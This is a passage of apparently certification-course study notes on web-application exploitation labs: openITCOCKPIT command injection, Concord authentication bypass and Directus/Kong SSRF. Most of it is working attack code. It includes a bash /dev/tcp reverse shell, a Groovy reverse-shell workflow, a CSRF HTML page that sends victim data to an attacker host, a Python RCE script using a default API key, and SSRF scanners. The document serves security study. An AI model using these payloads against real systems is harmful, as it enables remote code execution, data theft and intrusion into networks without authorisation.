if mes["type"] == "connection":
print("[+] Connected!")
elif mes["type"] == "dispatcher":
pass
elif mes["type"] == "response":
print(mes["payload"], end='')
else:
print(mes)
def on_error(ws, error):
print(error)
def on_close(ws):
print("[+] Connection Closed")
def on_open(ws):
def run():
while True:
cmd = input()
ws.send(toJson("execute_nagios_command", cmd))
thread.start_new_thread(run, ())
if __name__ == "__main__":
parser = argparse.ArgumentParser()
parser.add_argument('--url', '-u', required=True, dest='url',
help='Websocket URL')
parser.add_argument('--key', '-k', required=True, dest='key',
help='openITCOCKPIT Key')
parser.add_argument('--verbose', '-v', help='Print more data',
action='store_true')
args = parser.parse_args()
key = args.key
websocket.enableTrace(args.verbose)
ws = websocket.WebSocketApp(args.url,
on_message=on_message,
on_error=on_error,
on_close=on_close,
on_open=on_open)
ws.run_forever(sslopt={"cert_reqs": ssl.CERT_NONE})# Connect to the WebSocket server
python3 wsclient.py --url wss://[target-ip]/sudo_server \
-k 1fea123e07f730f76e661bced33a94152378611e
# [+] Connected!
# whoami
# ERROR: Forbidden command!9.5.3 Command Fuzzing and Injection
The server rejects most commands with "Forbidden command!" - only whitelisted commands are allowed. Fuzzing with a common command wordlist reveals that ls is permitted, and the listed scripts in the current directory (Nagios monitoring plugins) can also be executed.
Standard command injection operators (&&, ||, ;) are blocked. However, the check_http command accepts a -k flag for custom HTTP headers, opening an injection vector through quoting inconsistencies.
# Use check_http to connect back and verify header control
./check_http -I [attacker-ip] -p [port]
# Listener output:
# GET / HTTP/1.0
# User-Agent: check_http/v2.1.1 (monitoring-plugins 2.1.1)
# Connection: close
# Add a custom header with -k
./check_http -I [attacker-ip] -p [port] -k string1
# Listener output includes:
# string1Testing with single quotes reveals a critical injection point. When single-quoted arguments are passed, the closing quote escapes the command encapsulation, injecting into the parent su command that wraps user input.
# Single quote escapes into the su -c command wrapper
./check_http -I [attacker-ip] -p [port] -k 'string1 --help'
# Output: su command help message (not check_http help!)
# Usage: su [options] [LOGIN]
# Options:
# -c, --command COMMAND pass COMMAND to the invoked shell
# The server likely runs something like:
# su someuser -c './check_http -I [attacker-ip] -p [port] -k 'string1 --help''
# The single quote breaks out of the -c argument encapsulation# Inject a new -c argument to execute arbitrary commands
./check_http -I [attacker-ip] -p [port] -k 'test -c 'echo '[command-output]'
# Output: [command-output]
# Execute arbitrary commands
./check_http -I [attacker-ip] -p [port] -k 'test -c 'id'
# Output: uid=0(root) gid=0(root) groups=0(root),999(nagios)
# Reverse shell
./check_http -I [attacker-ip] -p [port] -k 'test -c 'bash -i >& /dev/tcp/[attacker-ip]/[listener-port] 0>&1'The injection works because the su -c command uses single quotes to encapsulate user input. By providing our own single quote, we close the original encapsulation and inject a second -c argument, which su processes instead of the first, giving us arbitrary command execution as root.
Methodology
-
jq '.[0:10000]' names.json | grep "," | cut -d'"' -f 2 > npm-10000.txt gobuster dir -w ./npm-10000.txt -u https://[target-ip]/js/vendor/ -k -
grep -r "document.write" ./ --include *.html -
# XSS URL with external script payload https://[target-ip]/js/vendor/lodash/perf/index.html?build=https://[attacker-ip]/client.js -
python3 wsclient.py --url wss://[target-ip]/sudo_server -k [akey] -
./check_http -I [attacker-ip] -p [port] -k 'test -c 'bash -i >& /dev/tcp/[attacker-ip]/[listener-port] 0>&1'
10. Concord Auth Bypass to RCE
10.1 Overview
Concord is an open-source workflow automation server developed by Walmart. It orchestrates build, testing, and deployment processes, executing commands and calling APIs across Dev, QA, and Production environments. Workflow servers typically have broad infrastructure access, making them high-value targets.
Concord suffers from three authentication bypass vulnerabilities. The first is an information disclosure via permissive CORS headers (discovered by Rob Fitzpatrick). The second is a Cross-Site Request Forgery (CSRF) vulnerability (discovered by OffSec). The third exploits default user accounts with undocumented API keys left in database migration files (also discovered by OffSec).
| URL | Username | Password |
|---|---|---|
http://concord:8001/ | (web UI) | |
ssh://[target-hostname] | [username] | [password] |
Methodology
-
curl -i http://[target-ip]:[port]/ -
dirb http://[target-ip]:[port] gobuster dir -u http://[target-ip]:[port] -w /usr/share/wordlists/dirb/common.txt
-
curl http://[target-ip]:[port]/docs curl http://[target-ip]:[port]/swagger.json -
curl -i http://[target-ip]:[port]/api/service/console/whoami -
rsync -az [username]@[target-ip]:/home/[username]/[app-dir]/ ./[app-dir]/
10.2 Authentication Analysis
10.2.1 Initial Reconnaissance
The Concord home page prompts for credentials and exposes few links. A dirb scan reveals the /api, /forms, and /logs routes all return 401 Unauthorized, while /docs hosts the application documentation.

dirb http://concord:8001Reviewing Burp Suite HTTP history shows the browser automatically issues a request to /api/service/console/whoami on page load. The response includes Access-Control-* headers, indicating CORS is configured on the application.
10.2.2 Same-Origin Policy (SOP)
Browsers enforce the Same-Origin Policy to prevent one origin from reading resources loaded from a different origin. An origin is defined by scheme, hostname, and port. SOP does not prevent a request from being sent - it prevents JavaScript from reading the response.
URL (from https://a.com/latest) | Result | Reason |
|---|---|---|
https://a.com/myInfo | Allowed | Same Origin |
http://a.com/users.json | Blocked | Different Scheme and Port |
https://api.a.com/info | Blocked | Different Domain |
https://a.com:8443/files | Blocked | Different Port |
https://b.com/analytics | Blocked | Different Domain |
JavaScript's fetch() API demonstrates this. A same-origin request succeeds and the response is readable, while a cross-origin request is sent but the browser blocks JavaScript from accessing the response body.
// Same-origin request - response readable
fetch("http://concord:8001/cfg.js")
.then(function (response) { return response.text(); })
.then(function (text) { console.log(text); })
// Cross-origin request - blocked by SOP
fetch("http://example.com")
.then(function (response) { return response.text(); })
.then(function (text) { console.log(text); })10.2.3 Cross-Origin Resource Sharing (CORS)
CORS relaxes SOP by instructing the browser (via response headers) which origins may access resources. The key headers are:
| Header | Purpose |
|---|---|
Access-Control-Allow-Origin | Specifies which origin can read the response (*, a single origin, or null) |
Access-Control-Allow-Credentials | When true, the browser sends cookies with cross-origin requests |
Access-Control-Expose-Headers | Lists response headers exposed to JavaScript |
When Access-Control-Allow-Origin is set to *, Access-Control-Allow-Credentials must be false, so all cross-origin requests are unauthenticated. Because Allow-Origin only accepts a single value, developers often dynamically reflect the request's Origin header - a pattern that is inherently insecure when paired with Allow-Credentials: true.
10.2.4 Preflight Requests
Standard GET, HEAD, and POST requests (with standard content types) do not require a preflight check. However, requests using non-standard HTTP methods, custom headers, or non-standard content types (anything other than application/x-www-form-urlencoded, multipart/form-data, or text/plain) trigger an OPTIONS preflight request. The server must respond with appropriate CORS headers for the actual request to proceed.
// Standard POST - no preflight, request is sent
fetch("https://example.com", {
method: 'post',
headers: { "Content-type": "application/x-www-form-urlencoded;" }
})
// Non-standard content type - triggers OPTIONS preflight
fetch("https://example.com", {
method: 'post',
headers: { "Content-type": "application/json;" }
})10.2.5 SameSite Cookie Attribute
The SameSite attribute on Set-Cookie controls whether cookies are sent on cross-site requests. It accepts three values:
| Value | Behavior |
|---|---|
| Strict | Cookies only sent on same-site requests (not even on navigation links) |
| Lax | Cookies sent on top-level navigation with safe methods (GET, HEAD, OPTIONS) - default in Chrome 80+ and Edge 86+ |
| None | Cookies sent in all contexts (requires the Secure attribute) |
If a site does not set the SameSite attribute, the browser's default applies. Chrome defaults to Lax, while Firefox and Safari default to None. When the default is None, cross-origin requests include cookies, enabling CSRF if the application lacks additional protections like CSRF tokens.
10.2.6 Discovering Unsafe CORS in Concord
The /api/service/console/whoami endpoint returns Access-Control-Allow-Origin: * when no Origin header is present. When an Origin header is added, the server reflects it into Access-Control-Allow-Origin and adds Access-Control-Allow-Credentials: true.
However, when the request method is changed to OPTIONS, the origin is not reflected. This means the CORS vulnerability is limited to GET requests and standard POST requests (those that do not trigger a preflight). Non-standard POST requests (e.g., application/json) will be blocked by the preflight check.
Methodology
-
dirb http://[target-ip]:8001 -
curl -i -H "Origin: http://evil.com" http://[target-ip]:8001/api/service/console/whoami -
curl -i -X OPTIONS -H "Origin: http://evil.com" \ -H "Access-Control-Request-Method: POST" \ http://[target-ip]:8001/api/service/console/whoami
10.3 Exploitation
10.3.1 Round One: CSRF via Permissive CORS
The Concord API documentation reveals a process execution endpoint at POST /api/v1/process that accepts multipart/form-data - a content type that does not require preflight. A concord.yml file defining a Groovy flow can execute arbitrary commands.
The attack requires hosting a malicious HTML page and luring an authenticated Concord user to visit it. The page first checks if the victim is logged in, then submits a process containing a reverse shell payload.
configuration:
dependencies:
- "mvn://org.codehaus.groovy:groovy-all:pom:2.5.8"
flows:
default:
- script: groovy
body: |
String host = "[attacker-ip]";
int port = 9000;
String cmd = "/bin/sh";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while (!s.isClosed()) {
while (pi.available() > 0) so.write(pi.read());
while (pe.available() > 0) so.write(pe.read());
while (si.available() > 0) po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {
p.exitValue();
break;
} catch (Exception e) {}
};
p.destroy();
s.close();The CSRF payload first sends a fetch request to /api/service/console/whoami with credentials: 'include' to confirm the victim is authenticated. If the response is not 401, the exploit creates a Blob from the YAML content, appends it to a FormData object, and POSTs it to /api/v1/process.
<html>
<head>
<script>
yml = `
configuration:
dependencies:
- "mvn://org.codehaus.groovy:groovy-all:pom:2.5.8"
flows:
default:
- script: groovy
body: |
String host = "[attacker-ip]";
int port = 9000;
String cmd = "/bin/sh";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while (!s.isClosed()) {
while (pi.available() > 0) so.write(pi.read());
while (pe.available() > 0) so.write(pe.read());
while (si.available() > 0) po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {
p.exitValue();
break;
} catch (Exception e) {}
};
p.destroy();
s.close();
`
fetch("http://concord:8001/api/service/console/whoami", {
credentials: 'include'
})
.then(async (response) => {
if(response.status != 401){
let data = await response.text();
fetch("http://[attacker-ip]/?msg=" + data );
rce();
}else{
fetch("http://[attacker-ip]/?msg=UserNotLoggedIn" );
}
})
function rce() {
var ymlBlob = new Blob([yml], { type: "application/yml" });
var fd = new FormData();
fd.append('concord.yml', ymlBlob);
fetch("http://concord:8001/api/v1/process", {
credentials: 'include',
method: 'POST',
body: fd
})
.then(response => response.text())
.then(data => {
fetch("http://[attacker-ip]/?msg=" + data )
}).catch(err => {
fetch("http://[attacker-ip]/?err=" + err )
});
}
</script>
</head>
<body>
</body>
</html>Serve the HTML page and start a netcat listener. When the authenticated user visits the page, the process is created and a reverse shell connects back.
# Serve the CSRF payload
sudo python3 -m http.server 80
# Start listener for reverse shell
nc -nvlp [listener-port]# Callback received in HTTP server logs
[attacker-ip] - - "GET /?msg={...\"username\":\"concordAgent\"...} HTTP/1.1" 200 -
[attacker-ip] - - "GET /?msg={\"instanceId\":\"a85f6fef-...\",\"ok\":true} HTTP/1.1" 200 -
# Reverse shell
nc -nvlp [listener-port]
connect to [attacker-ip] from (UNKNOWN) [target-ip] 39888
whoami
concord10.3.2 Round Two: Insecure Defaults
Concord uses Docker and initializes its database through Liquibase migration files. Reviewing the startup script (start.sh) reveals the MigrateDB class, which leads to database migration XMLs under server/db/src/main/resources/. These migrations define tables, columns, and sometimes insert seed data.
# Search for API key inserts across all migration files
grep -rl '<insert tableName="API_KEYS">' ./
# ./server/db/src/main/resources/.../v0.70.0.xml
# ./server/db/src/main/resources/.../v0.69.0.xml
# ./server/db/src/main/resources/.../v0.0.1.xmlThe earliest migration (v0.0.1.xml) creates the USERS table and inserts an API key with a commented "original" value. The hashed key stored in the database no longer matches, so this key fails authentication.
<!-- v0.0.1.xml - changeset 1440 -->
<insert tableName="API_KEYS">
<column name="KEY_ID">d5165ca8-e8de-11e6-9bf5-136b5db23c32</column>
<!-- original: auBy4eDWrKWsyhiDp3AQiw -->
<column name="API_KEY">KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA</column>
<column name="USER_ID">230c5c9c-d9a7-11e6-bcfd-bb681c07b26c</column>
</insert>A later migration (v0.69.0.xml) inserts a concordAgent user and a new API key. The commented plaintext value above the hashed key is the pre-hash secret.
<!-- v0.69.0.xml - changeset 69000 -->
<property name="concordAgentUserId" value="d4f123c1-f8d4-40b2-8a12-b8947b9ce2d8"/>
<changeSet id="69000" author="ybrigo@gmail.com">
<insert tableName="USERS">
<column name="USER_ID">${concordAgentUserId}</column>
<column name="USERNAME">concordAgent</column>
<column name="USER_TYPE">LOCAL</column>
</insert>
<insert tableName="API_KEYS">
<!-- "O+JMYwBsU797EKtlRQYu+Q" -->
<column name="API_KEY">1sw9eLZ41EOK4w/iV3jFnn6cqeAMeFtxfazqVY04koY</column>
<column name="USER_ID">${concordAgentUserId}</column>
</insert>
</changeSet>Authenticating with the commented plaintext API key succeeds. The Concord documentation also allows UI login by appending ?useApiKey=true to the login URL.
# Authenticate with the default API key
curl -H "Authorization: O+JMYwBsU797EKtlRQYu+Q" http://concord:8001/api/v1/apikey
# [{"id":"4805382e-...","userId":"d4f123c1-...","name":"key-1"}]
# Obtain RCE via curl using the default API key
curl -H "Authorization: O+JMYwBsU797EKtlRQYu+Q" \
-F "concord.yml=@concord.yml" \
http://concord:8001/api/v1/process10.3.3 Full Python Exploit
A Python script combining the default-credentials bypass with process execution automates the entire chain from authentication to reverse shell.
import requests
requests.packages.urllib3.disable_warnings(
requests.packages.urllib3.exceptions.InsecureRequestWarning)
target = "http://concord:8001"
api_key = "O+JMYwBsU797EKtlRQYu+Q"
attacker_ip = "[attacker-ip]"
attacker_port = "9000"
headers = {"Authorization": api_key}
# Verify authentication
r = requests.get(f"{target}/api/service/console/whoami", headers=headers)
print(f"[*] Authenticated as: {r.text}")
# Build Groovy reverse shell YAML
yml_content = f"""configuration:
dependencies:
- "mvn://org.codehaus.groovy:groovy-all:pom:2.5.8"
flows:
default:
- script: groovy
body: |
String host = "{attacker_ip}";
int port = {attacker_port};
String cmd = "/bin/sh";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while (!s.isClosed()) {{
while (pi.available() > 0) so.write(pi.read());
while (pe.available() > 0) so.write(pe.read());
while (si.available() > 0) po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {{
p.exitValue();
break;
}} catch (Exception e) {{}}
}};
p.destroy();
s.close();
"""
# Submit the process
files = {
'concord.yml': ('concord.yml', yml_content, 'application/x-yaml')
}
r = requests.post(f"{target}/api/v1/process", files=files, headers=headers)
print(f"[*] Process response: {r.text}")Methodology
-
dirb http://concord:8001 -
curl -i -H "Origin: http://evil.com" http://concord:8001/api/service/console/whoami -
curl -i -X OPTIONS -H "Origin: http://evil.com" http://concord:8001/api/service/console/whoami -
rsync -az [username]@[target-hostname]:/home/[username]/concord-1.83.0/ concord/ grep -rl '<insert tableName="API_KEYS">' ./ -
curl -i -H "Authorization: O+JMYwBsU797EKtlRQYu+Q" http://concord:8001/api/v1/apikey -
curl -H "Authorization: O+JMYwBsU797EKtlRQYu+Q" \ -F "concord.yml=@concord.yml" \ http://concord:8001/api/v1/process
11. Server-Side Request Forgery
11.1 Overview
Server-Side Request Forgery (SSRF) occurs when an attacker forces a server-side application to make HTTP requests to an arbitrary destination. Since the request originates from the server, it can reach internal services, localhost-bound interfaces, and hosts behind firewalls or reverse proxies that the attacker cannot access directly.

In this module we target Directus v9.0.0-rc34 running behind a Kong API Gateway 2.2.1. Using a blackbox methodology, we discover an unauthenticated blind SSRF in the Directus /files/import endpoint, chain it through a Headless Chrome render service, and ultimately achieve RCE on the Kong API Gateway container via the Serverless Functions plugin.
| Component | Details |
|---|---|
| Target URL | http://apigateway:8000/ |
| SSH Access | [username]:[password] |
| API Gateway | Kong 2.2.1 |
| Backend Service | Directus v9.0.0-rc34 |
| Approach | Blackbox (no application credentials) |
Methodology
-
ssh [username]@[target-ip] docker ps docker network ls docker network inspect [network-name] -
echo "[target-ip] apigateway" | sudo tee -a /etc/hosts -
curl -i http://apigateway:8000 # Server: kong/2.2.1
11.2 Microservices Architecture
Modern applications decompose into smaller microservices, each exposing a single function via a RESTful API. The API gateway sits in front, handling authentication, rate limiting, and TLS termination before proxying requests to backend services.
Microservices in Docker environments use container names as hostnames for internal DNS resolution. Because the gateway often handles security controls, backend services may lack their own authentication - so bypassing the gateway exposes internal APIs without credentials.
11.2.1 RESTful URL Formats
API URLs follow varying patterns. Understanding these helps with enumeration and fuzzing when targeting unknown services.
| Example | Pattern | Notes |
|---|---|---|
https://api.bestbuy.com/v1/products/8880044.json | Subdomain + version + resource + ID | Version in URL path |
https://haveibeenpwned.com/api/v3/{service}/{param} | Main domain + /api/ + version + service | Version in URL path |
https://api.github.com/users/octocat | Subdomain + resource + param | Version in Accept header |
Methodology
-
docker inspect [container-name] | grep -i hostname cat docker-compose.yml
11.3 API Discovery via Verb Tampering
RESTful APIs tie functionality to HTTP verbs - a GET may return data while a POST creates resources. Standard enumeration tools only send GET requests and can miss endpoints that respond differently to POST, PUT, or DELETE.
11.3.1 Initial Enumeration
The Kong gateway returns a 404 with {"message":"no Route matched with those values"} for unknown paths. The Admin API on port 8001 is not externally accessible. We use gobuster with expanded status codes (including 405 and 500) to find valid routes.
# Initial request to identify the gateway
curl -i http://[target-ip]:8000
# Server: kong/2.2.1
# Gobuster with expanded status codes
gobuster dir -u http://[target-ip]:8000 \
-w /usr/share/wordlists/dirbuster/directory-list-1.0.txt \
-s "200,204,301,302,307,401,403,405,500"The scan reveals three distinct endpoint prefixes: /files (403 Forbidden, X-Powered-By: Directus), /users (403 Forbidden, Directus), and /render (401 Unauthorized, Key realm="kong"). The Directus endpoints return error messages referencing collection names like directus_users and directus_files.
11.3.2 Advanced Enumeration with Verb Tampering
A custom Python script sends both GET and POST requests to compound paths (/<endpoint>/<action>) and compares response codes. This discovers endpoints invisible to GET-only scanners.
#!/usr/bin/env python3
import argparse
import requests
parser = argparse.ArgumentParser()
parser.add_argument('-a','--actionlist', help='actionlist to use')
parser.add_argument('-t','--target', help='host/ip to target', required=True)
parser.add_argument('-w','--wordlist', help='wordlist to use')
args = parser.parse_args()
actions = []
with open(args.actionlist, "r") as a:
for line in a:
try:
actions.append(line.strip())
except:
print("Exception occurred")
print("Path - \tGet\tPost")
with open(args.wordlist, "r") as f:
for word in f:
for action in actions:
print('\r/{word}/{action}'.format(word=word.strip(), action=action),
end='')
url = "{target}/{word}/{action}".format(target=args.target,
word=word.strip(), action=action)
r_get = requests.get(url=url).status_code
r_post = requests.post(url=url).status_code
if(r_get not in [204,401,403,404] or r_post not in [204,401,403,404]):
print(' \r', end='')
print("/{word}/{action:10} - \t{get}\t{post}".format(
word=word.strip(), action=action, get=r_get, post=r_post))
print('\r', end='')
print("Wordlist complete. Goodbye.")# Run the verb tampering script
./route_buster.py -a /usr/share/wordlists/dirb/small.txt \
-w endpoints_simple.txt -t http://[target-ip]:8000
# Key results:
# /files/import - 403 400
# /users/invite - 403 400The /files/import endpoint returns 400 Bad Request on POST instead of 403 Forbidden, with an error message: "url" is required. Any endpoint accepting a URL parameter is a prime candidate for SSRF testing.
# Probe the /files/import endpoint
curl -i -X POST http://[target-ip]:8000/files/import
# {"errors":[{"message":"\"url\" is required","extensions":{"code":"INVALID_PAYLOAD"}}]}Methodology
-
gobuster dir -u http://[target-ip]:8000 \ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt \ -s "200,204,301,302,307,400,401,403,405,500" -
curl -i http://[target-ip]:8000/files/import curl -i -X POST http://[target-ip]:8000/files/import
11.4 SSRF Discovery and Exploitation
SSRF is confirmed when the server fetches our controlled URL. We supply a JSON body with a url parameter pointing to our Kali HTTP server and check the access log for incoming requests.

# Test for SSRF - point the url parameter at our web server
curl -i -X POST -H "Content-Type: application/json" \
-d '{"url":"http://[attacker-ip]/ssrftest"}' \
http://[target-ip]:8000/files/import
# Check Apache logs for the callback
sudo tail /var/log/apache2/access.log
# [target-internal-ip] - - "GET /ssrftest HTTP/1.1" 404 455 "-" "axios/0.21.1"The server fetched our URL using axios/0.21.1 (a Node.js HTTP client). When the requested file exists, the server returns 403 Forbidden ("You don't have permission to access this."); when it doesn't exist, we get 500 Internal Server Error ("Request failed with status code 404"). This is a blind SSRF - the response content is not returned to us, but we can infer resource existence from different error messages.
| Server Response | Meaning |
|---|---|
| 403 Forbidden - "You don't have permission" | Valid resource found (SSRF fetched it successfully) |
| 500 - "Request failed with status code 404" | Resource does not exist |
| 500 - "connect ECONNREFUSED" | Host up, port closed |
| 500 - "connect EHOSTUNREACH" | Host not reachable / no route |
| Timeout | Host not reachable (firewall / non-existent) |
11.4.1 Source Code Analysis
Directus is open source, so we can verify the root cause. The authentication middleware in /api/src/middleware/authenticate.ts creates a default accountability object with user: null and role: null, then calls next() if no token is present - it does not reject unauthenticated requests.
// /api/src/middleware/authenticate.ts (lines 12-21)
const authenticate = asyncHandler(async (req, res, next) => {
req.accountability = {
user: null,
role: null,
admin: false,
ip: req.ip.startsWith('::ffff:') ? req.ip.substring(7) : req.ip,
userAgent: req.get('user-agent'),
};
if (!req.token) return next(); // No token? Continue anyway.
// ...
});The files controller in /api/src/controllers/files.ts calls axios.get() on the user-supplied URL at line 152 before any authorization check. The readByKey() call at line 170 is the first point where permissions are verified - but the SSRF request has already been sent by then.
// /api/src/controllers/files.ts (lines 138-183)
router.post('/import', asyncHandler(async (req, res, next) => {
const { error } = importSchema.validate(req.body);
if (error) throw new InvalidPayloadException(error.message);
const service = new FilesService({
accountability: req.accountability,
schema: req.schema,
});
// SSRF: URL fetched BEFORE authorization check
const fileResponse = await axios.get(req.body.url, {
responseType: 'stream',
});
const parsedURL = url.parse(fileResponse.request.res.responseUrl);
const filename = path.basename(parsedURL.pathname);
const payload = { filename_download: filename, /* ... */ };
const primaryKey = await service.upload(fileResponse.data, payload);
try {
// Authorization checked HERE - too late
const record = await service.readByKey(primaryKey, req.sanitizedQuery);
res.locals.payload = { data: record || null };
} catch (error) {
if (error instanceof ForbiddenException) return next();
throw error;
}
return next();
}), respond);Methodology
-
sudo systemctl start apache2 curl -i -X POST -H "Content-Type: application/json" \ -d '{"url":"http://[attacker-ip]/ssrftest"}' \ http://[target-ip]:8000/files/import sudo tail /var/log/apache2/access.log -
grep -rn "axios\|fetch\|request\|http\.get" --include="*.ts" --include="*.js" /path/to/source/
11.5 Blind SSRF Exploitation
11.5.1 Port Scanning via SSRF
The different error messages enable an SSRF-based port scanner. Localhost on port 8000 returns ECONNREFUSED (Directus runs on a different host than Kong), but port 8055 (Directus default) returns a valid response - confirming we are inside the internal network.
# Test localhost - different host than the gateway
curl -i -X POST -H "Content-Type: application/json" \
-d '{"url":"http://localhost:8000/"}' http://[target-ip]:8000/files/import
# {"errors":[{"message":"connect ECONNREFUSED 127.0.0.1:8000"...}]}
# Directus default port - open!
curl -i -X POST -H "Content-Type: application/json" \
-d '{"url":"http://localhost:8055/"}' http://[target-ip]:8000/files/import
# 403 Forbidden - valid resource#!/usr/bin/env python3
# ssrf_port_scanner.py
import argparse
import requests
parser = argparse.ArgumentParser()
parser.add_argument('-t','--target', help='host/ip to target', required=True)
parser.add_argument('--timeout', help='timeout', required=False, default=3)
parser.add_argument('-s','--ssrf', help='ssrf target', required=True)
parser.add_argument('-v','--verbose', help='enable verbose mode',
action="store_true", default=False)
args = parser.parse_args()
ports = ['22','80','443','1433','1521','3306','3389','5000',
'5432','5900','6379','8000','8001','8055','8080','8443','9000']
timeout = float(args.timeout)
for p in ports:
try:
r = requests.post(url=args.target,
json={"url":"{host}:{port}".format(host=args.ssrf, port=int(p))},
timeout=timeout)
if args.verbose:
print("{port:0} \t {msg}".format(port=int(p), msg=r.text))
if "You don't have permission to access this." in r.text:
print("{port:0} \t OPEN - returned permission error".format(port=int(p)))
elif "ECONNREFUSED" in r.text:
print("{port:0} \t CLOSED".format(port=int(p)))
elif "Request failed with status code 404" in r.text:
print("{port:0} \t OPEN - returned 404".format(port=int(p)))
elif "Parse Error" in r.text:
print("{port:0} \t ???? - parse error, potentially non-http".format(
port=int(p)))
elif "socket hang up" in r.text:
print("{port:0} \t OPEN - socket hang up, likely non-http".format(
port=int(p)))
else:
print("{port:0} \t {msg}".format(port=int(p), msg=r.text))
except requests.exceptions.Timeout:
print("{port:0} \t timed out".format(port=int(p)))# Scan localhost ports via SSRF
./ssrf_port_scanner.py -t http://[target-ip]:8000/files/import \
-s http://localhost --timeout 5
# 8055 OPEN - returned permission error, therefore valid resource
# (all others CLOSED)11.5.2 Subnet and Gateway Scanning
Closed ports on reachable hosts respond quickly (~0.17s) while unreachable hosts time out (~60s). This timing difference lets us enumerate internal subnets. We scan for default gateways (fourth octet = .1) across the 172.16.0.0/12 range.
# Timing: closed port on reachable host (~0.18s)
curl -X POST -H "Content-Type: application/json" \
-d '{"url":"http://127.0.0.1:6666"}' \
http://[target-ip]:8000/files/import -s -w 'Total: %{time_total}s\n' -o /dev/null
# Total: 0.178631s
# Timing: unreachable host (~60s)
curl -X POST -H "Content-Type: application/json" \
-d '{"url":"http://[internal-ip]"}' \
http://[target-ip]:8000/files/import -s -w 'Total: %{time_total}s\n' -o /dev/null
# Total: 60.155041s#!/usr/bin/env python3
# ssrf_gateway_scanner.py - scan for live gateways on 172.16.x.1
import argparse
import requests
parser = argparse.ArgumentParser()
parser.add_argument('-t','--target', help='SSRF vulnerable endpoint', required=True)
parser.add_argument('--timeout', help='timeout', required=False, default=3)
args = parser.parse_args()
baseurl = args.target
base_ip = "http://172.{two}.{three}.1"
timeout = float(args.timeout)
for y in range(16, 256):
for x in range(1, 256):
host = base_ip.format(two=int(y), three=int(x))
print("Trying host: {host}".format(host=host))
try:
r = requests.post(url=baseurl,
json={"url":"{host}:8000".format(host=host)},
timeout=timeout)
if "ECONNREFUSED" in r.text:
print("\t8000 \t Connection refused, could be live host")
elif "You don't have permission" in r.text:
print("\t8000 \t OPEN - returned permission error")
elif "Request failed with status code 404" in r.text:
print("\t8000 \t OPEN - returned 404")
elif "EHOSTUNREACH" in r.text:
print("\t8000 \t Host unreachable")
except requests.exceptions.Timeout:
print("\t8000 \t timed out")# Gateway scan finds a live host
./ssrf_gateway_scanner.py -t http://[target-ip]:8000/files/import
# http://172.16.16.1 - OPEN - returned 40411.5.3 Host and Port Enumeration
After discovering the 172.16.16.0/24 subnet, we scan all hosts for common service ports. The scan reveals the full internal topology of the Docker microservice environment.
| Host | Open Port(s) | Likely Service |
|---|---|---|
| 172.16.16.1 | 22, 8000 | Network gateway / external interface |
| 172.16.16.2 | 8000, 8001 | Kong API Gateway (admin API on 8001) |
| 172.16.16.3 | 5432 | PostgreSQL database |
| 172.16.16.4 | 8055 | Directus application |
| 172.16.16.5 | 9000 | Unknown HTTP service (Render API) |
| 172.16.16.6 | 6379 | Redis |
# Subnet port scan via SSRF
./ssrf_subnet_scanner.py -t http://[target-ip]:8000/files/import --timeout 5
# 172.16.16.1: 22 parse error (SSH), 8000 OPEN 404
# 172.16.16.2: 8000 OPEN 404, 8001 OPEN permission error
# 172.16.16.3: 5432 socket hang up (PostgreSQL)
# 172.16.16.4: 8055 OPEN permission error (Directus)
# 172.16.16.5: 9000 OPEN 404 (unknown)
# 172.16.16.6: 6379 parse error (Redis)Methodology
-
for port in 22 80 443 3306 5432 6379 8000 8001 8055 8080 9000; do echo -n "Port $port: " curl -s -X POST -H "Content-Type: application/json" \ -d "{\"url\":\"http://localhost:$port/\"}" \ http://[target-ip]:8000/files/import | jq -r '.errors[0].message // "OPEN"' done
11.6 Render API Auth Bypass
The /render endpoint requires an API key through Kong. However, using the SSRF to call the backend Render service directly at 172.16.16.5:9000 bypasses the gateway's authentication entirely. Fuzzing the internal service reveals /api/render accepts a url query parameter.

# Fuzz internal render service paths
./ssrf_path_scanner.py -t http://[target-ip]:8000/files/import \
-s http://172.16.16.5:9000 -p paths.txt --timeout 5
# /api/render 400 Bad Request - valid endpoint, missing parameter
# Fuzz query parameters
./ssrf_path_scanner.py -t http://[target-ip]:8000/files/import \
-s http://172.16.16.5:9000/api/render -p params.txt --timeout 5
# ?url=http://[attacker-ip]/render/url OPEN - permission error# Check Apache log - Headless Chrome made the request!
sudo tail /var/log/apache2/access.log
# [target-ip] "GET /render/url HTTP/1.1" 404 492 "-"
# "Mozilla/5.0 ... HeadlessChrome/79.0.3945.0 Safari/537.36"The Render service is a URL-to-PDF microservice powered by Puppeteer and Headless Chrome. It loads the provided URL in a real browser environment - meaning it will execute JavaScript.
Methodology
-
# Fuzz internal service paths via SSRF curl -X POST -H "Content-Type: application/json" \ -d '{"url":"http://[internal-ip]:9000/api/render"}' \ http://[target-ip]:8000/files/import
11.7 Exploiting Headless Chrome
Headless Chrome executes JavaScript when loading pages. Hosting malicious HTML that runs arbitrary JS in the internal network context turns a blind SSRF into full data exfiltration and eventually RCE.

11.7.1 Verifying JavaScript Execution
<!-- hello.html - verify JS execution via callback -->
<html>
<head>
<script>
function runscript() {
fetch("http://[attacker-ip]/itworked");
}
</script>
</head>
<body onload='runscript()'>
<div></div>
</body>
</html># Trigger via SSRF chain: Directus -> Render -> our HTML
curl -X POST -H "Content-Type: application/json" \
-d '{"url":"http://172.16.16.5:9000/api/render?url=http://[attacker-ip]/hello.html"}' \
http://[target-ip]:8000/files/import
# Apache log confirms JS executed:
# "GET /hello.html" 200 ... HeadlessChrome
# "GET /itworked" 404 ... HeadlessChrome11.7.2 Exfiltrating Internal Data
With JavaScript execution confirmed, we use fetch() to call internal APIs from the browser context and send the response data back to our server as URL-encoded query parameters.
